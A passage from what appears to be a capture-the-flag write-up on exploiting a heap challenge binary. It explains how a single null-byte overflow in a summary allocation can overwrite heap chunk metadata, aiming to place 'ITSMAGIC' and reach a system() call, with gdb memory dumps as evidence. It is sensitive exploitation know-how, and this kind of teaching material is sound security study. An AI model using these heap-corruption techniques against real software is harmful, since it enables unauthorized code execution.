 ```
  }
  else
  {
    puts("Grasping into emptiness right there! Maybe we better stay at home today, shall we?");
  }
  exit(0);
}
```

So here is the function which will finish the code (also the most interesting). We can see that it prompts us for an index for a pointer stored in `folder`. If the first eight bytes (where `ITSSTUDY` is written) is equal to the hex string `0x434947414D535449` (ASCII `ITSMAGIC`), it will call system with the argument being the area of memory proceeding where it expects `ITSMAGIC`. We can see here, that our goal is to overwrite a heap object stored in `folder` with `ITSMAGIC`, and then we can call `system` with an argument that we can control. 

## Exploiting

#### One Null Byte Overflow 

So here we are going to show the single null byte overflow. We will start off with two summaries made, one with the string `15935728` and the other `75395128`:

```
gdb-peda$ x/4g 0x555555756040
0x555555756040 <folder>:	0x0000555555757010	0x00005555557570a0
0x555555756050 <folder+16>:	0x0000000000000000	0x0000000000000000
gdb-peda$ x/s 0x0000555555757010
0x555555757010:	"ITSSTUDY15935728"
gdb-peda$ x/s 0x00005555557570a0
0x5555557570a0:	"ITSSTUDY75395128"
```

We will then move forward by deleteing the first summary, which will result in it being freed. After that, we can see that the pointer has been removed:

```
gdb-peda$ x/4g 0x555555756040
0x555555756040 <folder>:	0x0000000000000000	0x00005555557570a0
0x555555756050 <folder+16>:	0x0000000000000000	0x0000000000000000
```

So now we are going to create another summary. Since the allocation size is the same size each time, it should go where the last summary we just freed was. However this time we will use the single null byte overflow. We can scan in a max of `0x80` bytes of data starting at `0x0000555555757018` (it doesn't start scanning in untill `8` bytes after the start of the data section, because of the string `ITSSTUDY`). This means that we can scan data up untill `0x555555757098`. Then with the null byte overflow, we can overwrite the first byte of `0x555555757098` with `0x0`. Let's see what is at `0x555555757098`:

```
gdb-peda$ x/4g 0x555555757098
0x555555757098:	0x0000000000000091	0x5944555453535449
0x5555557570a8:	0x3832313539333537	0x0000000000000000
```
